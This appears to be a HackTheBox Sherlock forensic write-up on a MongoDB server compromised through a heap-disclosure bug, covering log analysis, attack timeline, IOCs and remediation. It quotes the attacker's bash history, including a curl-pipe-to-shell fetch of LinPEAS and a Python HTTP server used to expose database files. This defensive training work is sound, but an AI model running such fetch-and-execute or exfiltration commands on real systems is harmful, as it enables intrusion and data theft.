








# MangoBleed — CTF Writeup

---

## Scenario Overview

A secondary MongoDB server (`mongodbsync`) was suspected to be compromised following administrator awareness of a vulnerability dubbed **MongoBleed**. A UAC (Unified Audit Collection) triage acquisition was collected from the server and handed over for rapid forensic analysis. The investigation aims to determine whether the system was compromised, identify attacker activity across the kill chain, and recommend next steps.

---

## Attack Chain Overview

```
[1] Vulnerability Exploitation (CVE-2025-14847)
    └─ 75,260 heap memory scraping connections from 65.0.76.43
    └─ Unauthenticated zlib heap disclosure → credential extraction

[2] Initial Access (SSH Brute-Force → Credential Use)
    └─ First successful SSH login: 2025-12-29 05:39:24 UTC
    └─ Interactive session established: 2025-12-29 05:40:03 UTC

[3] Discovery
    └─ whoami, ls -la

[4] Privilege Escalation Attempt
    └─ curl -L linpeas.sh | sh (in-memory, no disk write)

[5] Collection & Staging
    └─ Navigated to /var/lib/mongodb/
    └─ Installed zip utility

[6] Exfiltration
    └─ python3 -m http.server 6969
```

---

## Question 1 — What is the CVE ID for the MongoDB vulnerability?

### Investigation

The scenario briefing describes a vulnerability called **MongoBleed** affecting MongoDB servers. This is a documented MongoDB heap memory disclosure vulnerability — an unauthenticated attacker can send crafted requests over the wire to extract raw memory content (zlib heap data), which may contain credentials, session tokens, or sensitive database content.

The assigned CVE identifier:

### Answer

```
CVE-2025-14847
```


---

## Question 2 — What version of MongoDB is installed on the server?

### Command

```bash
cat var/log/mongodb/mongod.log | grep -i "buildInfo"
```

### Investigation

The MongoDB log file records a `buildInfo` entry at startup containing the exact version string and git commit hash. The relevant log entry:

```
MongoDB 8.0.16 (gitVersion: ba70b6a13fda907977110bf46e6c8137f5de48f6)
```

The server was running on Debian 12, and this version (`8.0.16`) falls within the vulnerable range for CVE-2025-14847.

### Answer

```
8.0.16
```


---

## Question 3 — What is the attacker's remote IP address?

### Command

```bash
cat var/log/mongodb/mongod.log | grep -i "remote" | head
```

### Investigation

Filtering the MongoDB log for `remote` connection entries surfaces the IP addresses of all connecting clients. One IP appeared with a dramatically anomalous connection frequency — far exceeding any legitimate client behavior:

```
65.0.76.43
```

This IP initiated thousands of rapid sequential connections — the automated heap scraping fingerprint of CVE-2025-14847 exploitation.

### Answer

```
65.0.76.43
```


---

## Question 4 — When did the exploitation activity begin?

### Command

```bash
grep "65.0.76.43" var/log/mongodb/mongod.log | head -n 1
```

### Investigation

Filtering all MongoDB log entries from the attacker IP and retrieving the first occurrence (`head -n 1`) returns the earliest confirmed malicious event. The log entry:

```
2025-12-29T05:25:52.743+00:00 Connection accepted [remote: 65.0.76.43:35340]
```

This connection establishment on ephemeral port `35340` marks the beginning of the automated heap memory scraping campaign.

### Answer

```
2025-12-29 05:25:52
```


---

## Question 5 — What is the total number of malicious connections?

### Command

```bash
grep "65.0.76.43" var/log/mongodb/mongod.log | wc -l
```

### Investigation

Counting every log line containing the attacker IP gives the total number of connections logged — each representing one heap memory scraping request sent to extract raw zlib heap data from the MongoDB process:

```
75260 connections
```

75,260 rapid sequential connections over approximately 14 minutes (05:25:52 → 05:39:24) confirms fully automated exploitation tooling — not manual activity.

**Rate calculation:**

```
75,260 connections / 14 minutes ≈ 5,375 connections/minute ≈ 89 connections/second
```

### Answer

```
75260
```


---

## Question 6 — When did the attacker successfully gain interactive remote access?

### Command

```bash
grep "Accepted" auth.log | grep "65.0.76.43"
```

### Investigation

The `auth.log` file records all authentication events. Filtering for `Accepted` SSH connections from the attacker IP returns two entries:

```
2025-12-29T05:39:24 sshd: Accepted keyboard-interactive/pam for mongoadmin from 65.0.76.43 port 55056
2025-12-29T05:40:03 sshd[39962]: Accepted for mongoadmin from 65.0.76.43 port 46062
```

| Timestamp | Event |
|---|---|
| `05:39:24 UTC` | First successful SSH authentication (keyboard-interactive/pam) |
| `05:40:03 UTC` | Interactive SSH session established (full hands-on access) |

The `05:40:03 UTC` entry represents the attacker's first **interactive hands-on session** — the moment they gained full shell access to the compromised server.

**Timeline context:** The 14-minute gap between the start of exploitation (`05:25:52`) and first successful SSH access (`05:39:24`) represents the time required for the automated tool to scrape sufficient memory to extract the `mongoadmin` credentials.

### Answer

```
2025-12-29 05:40:03
```


---

## Question 7 — What command did the attacker use for privilege escalation?

### Commands

```bash
# Step 1: Locate bash history files
find . -name "*history*" 2>/dev/null

# Step 2: Read all bash history files
cat home/*/.bash_history 2>/dev/null
```

### Investigation

Finding and reading the `mongoadmin` user's bash history reveals the complete attacker command sequence:

```bash
whoami
ls -la
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
cd /var/lib/
ls
apt install zip
cd mongodb/
ls
python3 -m http.server 6969
sudo su
```

The privilege escalation command:

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

**Why this is significant:**

- **LinPEAS** (Linux Privilege Escalation Awesome Script) is a well-known post-exploitation enumeration tool from the PEASS-ng suite
- The `curl ... | sh` pattern executes the script **directly in memory** — no file is written to disk, making forensic recovery harder
- The `-L` flag follows HTTP redirects (GitHub redirects to CDN)
- LinPEAS scans for SUID binaries, sudo misconfigurations, writable paths, cron jobs, and hundreds of other privilege escalation vectors

**MITRE ATT&CK:** T1059.004 — Unix Shell | T1046 — Network Service Discovery (LinPEAS)

### Answer

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```


---

## Question 8 — Which directory was targeted for staging and exfiltration?

### Command

```bash
cat home/*/.bash_history 2>/dev/null
```

### Investigation

Continuing the bash history analysis, after LinPEAS execution the attacker's actions:

```bash
cd /var/lib/
ls
apt install zip          # Install compression tool for staging
cd mongodb/              # Navigate to MongoDB data directory
ls                       # Enumerate database files
python3 -m http.server 6969  # Start HTTP server for exfiltration
sudo su                  # Attempt root elevation
```

The target directory `/var/lib/mongodb/` contains:

- MongoDB data files (`.wt` WiredTiger storage engine files)
- Collection BSON data
- Journal files
- Index files

This directory contains the **raw MongoDB database files** — exfiltrating these gives the attacker direct access to all database content without needing MongoDB credentials.

**Exfiltration mechanism:** `python3 -m http.server 6969` spawned a plaintext HTTP server on port 6969, allowing the attacker to download files remotely via simple HTTP GET requests.

**MITRE ATT&CK:** T1005 — Data from Local System | T1048.003 — Exfiltration Over HTTP

### Answer

```
/var/lib/mongodb
```


---

## Full Attack Timeline

| Timestamp (UTC) | Event |
|---|---|
| `2025-12-29 05:11:47` | MongoDB 8.0.16 service active — vulnerable to CVE-2025-14847 |
| `2025-12-29 05:25:52` | **First malicious connection** — automated heap scraping begins from `65.0.76.43` |
| `2025-12-29 05:25:52 → 05:39:24` | 75,260 zlib heap disclosure connections (~89/second) — credential extraction |
| `2025-12-29 05:39:24` | First successful SSH authentication as `mongoadmin` (keyboard-interactive/pam) |
| `2025-12-29 05:40:03` | **Interactive SSH session established** — hands-on access |
| Post `05:40:03` | `whoami`, `ls -la` — initial discovery |
| Post `05:40:03` | `curl ... linpeas.sh \| sh` — in-memory privilege escalation enumeration |
| Post `05:40:03` | `cd /var/lib/mongodb/` — target database directory |
| Post `05:40:03` | `apt install zip` — compression tool installed for staging |
| Post `05:40:03` | `python3 -m http.server 6969` — HTTP exfiltration server started |
| Post `05:40:03` | `sudo su` — root elevation attempt |

---

## Key Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| IP | `65.0.76.43` | Attacker IP — exploitation and SSH access |
| CVE | `CVE-2025-14847` | MongoDB unauthenticated heap disclosure |
| Account | `mongoadmin` | Compromised SSH account |
| Port | `35340` | Initial exploitation ephemeral port |
| Port | `55056` | First SSH authentication port |
| Port | `46062` | Interactive SSH session port |
| Port | `6969` | HTTP exfiltration server |
| Directory | `/var/lib/mongodb/` | Staged database files |
| Tool | `LinPEAS` | Privilege escalation enumeration (in-memory) |

---

## Commands Reference

```bash
# Q2: MongoDB version
cat var/log/mongodb/mongod.log | grep -i "buildInfo"

# Q3: Attacker IP identification
cat var/log/mongodb/mongod.log | grep -i "remote" | head

# Q4: First malicious event timestamp
grep "65.0.76.43" var/log/mongodb/mongod.log | head -n 1

# Q5: Total malicious connection count
grep "65.0.76.43" var/log/mongodb/mongod.log | wc -l

# Q6: Successful SSH access timestamp
grep "Accepted" auth.log | grep "65.0.76.43"

# Q7-Q8: Bash history — privilege escalation + target directory
find . -name "*history*" 2>/dev/null
cat home/*/.bash_history 2>/dev/null
```

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name |
|---|---|---|
| Initial Access | T1190 | Exploit Public-Facing Application (CVE-2025-14847) |
| Credential Access | T1110 | Brute Force (memory scraping → credential extraction) |
| Initial Access | T1021.004 | Remote Services: SSH |
| Discovery | T1033 | System Owner/User Discovery (`whoami`) |
| Discovery | T1083 | File and Directory Discovery (`ls -la`) |
| Privilege Escalation | T1059.004 | Unix Shell (LinPEAS in-memory execution) |
| Defense Evasion | T1620 | Reflective Code Loading (curl \| sh — no disk write) |
| Collection | T1005 | Data from Local System (`/var/lib/mongodb/`) |
| Collection | T1560.001 | Archive via Utility (`apt install zip`) |
| Exfiltration | T1048.003 | Exfiltration Over HTTP (`python3 -m http.server 6969`) |

---

## Recommendations

1. **Patch MongoDB immediately** — Upgrade from `8.0.16` to the patched version addressing CVE-2025-14847. Verify with the MongoDB security advisory for the exact minimum safe version.
2. **Rotate all MongoDB credentials** — The `mongoadmin` password was extracted from heap memory. Assume all credentials accessible in MongoDB process memory are compromised. Force immediate rotation.
3. **Block `65.0.76.43` at perimeter** — Apply firewall rules to block all inbound and outbound traffic to/from the attacker IP across the entire organization.
4. **Audit MongoDB network exposure** — MongoDB should never be directly accessible from the internet. Restrict port `27017` to trusted IP ranges only via firewall ACLs.
5. **Verify data exfiltration scope** — Review web server logs and network flow data for HTTP GET requests to/from port `6969` on `mongodbsync` to determine exactly which database files were downloaded.
6. **Check root elevation success** — Investigate whether `sudo su` succeeded. If so, assume full root compromise and perform a complete host re-imaging rather than remediation.
7. **Deploy MongoDB audit logging** — Enable MongoDB's built-in audit log to capture all authentication attempts, queries, and administrative actions for future incident detection.

---

*Writeup produced as part of SOC Analyst training — HackTheBox Sherlock: MangoBleed*